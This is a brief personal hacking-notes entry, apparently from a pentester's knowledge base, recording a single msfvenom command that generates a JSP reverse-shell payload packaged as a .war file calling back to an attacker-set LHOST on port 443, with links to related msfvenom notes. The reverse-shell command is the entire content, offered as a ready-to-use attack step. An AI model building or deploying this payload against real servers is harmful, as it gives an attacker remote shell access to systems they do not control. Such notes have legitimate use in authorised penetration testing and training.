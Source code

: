# MSFVENOM Java Server Pages (.jsp) As .war
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LHOST LPORT=443 -f war -o shell.war
```

# References
- [20221003150760](/zet/20221003150760/README.md) MSFVENOM Java Server Pages (.jsp)
- ~/kb/hacking/commands/msfvenom-commands.md

Tags:
    #assorted
